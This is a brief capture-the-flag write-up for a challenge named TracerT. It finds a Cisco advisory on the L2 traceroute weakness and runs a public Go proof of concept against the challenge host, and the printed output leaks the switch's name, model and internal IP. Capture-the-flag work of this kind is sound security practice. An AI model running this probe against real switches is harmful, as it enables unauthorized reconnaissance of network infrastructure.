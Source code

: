 A sort of basic writeup for TracerT:

The following will not work with the switches FQDN tracert.cg21.mctf.io.

You can find the switches IP address with a DNS lookup like so:

`dig tracert.cg21.mctf.io +short`

After fiddling around a while with snmp and failing I decided to search for Cisco security advisories instead.

You can look at the cisco security advisories here and search for traceroute:
https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=Traceroute&sort=-day_sir#~Vulnerabilities

Which leads to this informational report:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190925-l2-traceroute#recommendations

Here the L2 traceroute feature is explained as well as its weakness.
The feature is enabled by default on Catalyst Switches.
At the bottom the security researcher Chris Marget is mentioned, who discovered the weakness.

You can find him on twitter and github.
On Github he has a repo with a working proof of concept written in Go.
https://github.com/chrismarget/cisco-l2t

Clone his repo and run the cmd/l2t_ss/main.go script like so:

`go run main.go -t 1 -a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff -a 3:100 -a 14:0.0.0.0 34.207.70.151`

My output:
```
git:(master) $ go run main.go -t 1 -a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff -a 3:100 -a 14:0.0.0.0 34.207.70.151
Received: L2T_REPLY_DST (3) with 4 attributes (51 bytes)
   4 L2_ATTR_DEV_NAME     thats-tracer-t-to-u
   5 L2_ATTR_DEV_TYPE     WS-C2950T-24
   6 L2_ATTR_DEV_IP       192.168.28.125
  15 L2_ATTR_REPLY_STATUS Status unknown (3)
```
